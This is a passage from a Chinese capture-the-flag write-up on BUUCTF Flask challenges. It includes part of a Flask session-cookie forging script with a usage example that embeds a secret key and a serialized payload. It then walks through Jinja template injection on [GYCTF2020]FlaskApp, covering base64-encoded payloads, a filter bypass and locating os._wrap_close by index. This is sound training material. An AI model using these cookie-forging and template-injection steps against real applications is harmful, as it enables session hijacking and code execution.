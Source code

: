 ```python
    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                                help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                                help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if(args.subcommand == 'encode'):
        if(args.secret_key is not None and args.cookie_structure is not None):
            print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif(args.subcommand == 'decode'):
        if(args.secret_key is not None and args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value,args.secret_key))
        elif(args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value))
```
:::

使用方法：`python3 文件名.py encode -s 'glzjin22948575858jfjfjufirijidjitg3uiiuuh' -t "{'u':{'b':'反序列化user对象的字符串'}}"`

![8](https://the0n3.top/medias/buuflask/8.png)


太有意思啦！！

![7](https://the0n3.top/medias/buuflask/7.png)


## [GYCTF2020]FlaskApp

一道flask pin码计算

打开题目，在b64解码界面存在flask模板注入

![12](https://the0n3.top/medias/buuflask/12.png)

::: v-pre
把payload base64编码一下，flask会进行解码，把执行结果直接渲染到前端。尝试`{{7*7}}`，返回了`no no no!!`，用`{{7+7}}`返回了14，过滤了`*`
:::

![13](https://the0n3.top/medias/buuflask/13.png)

使用base64编码payload，测试到查找子类`subclasses`时，服务器502，具体到某个子类时才会正常返回结果
![14](https://the0n3.top/medias/buuflask/14.png)

用脚本爆破出`os.wrap`在127的位置

![15](https://the0n3.top/medias/buuflask/15.png)

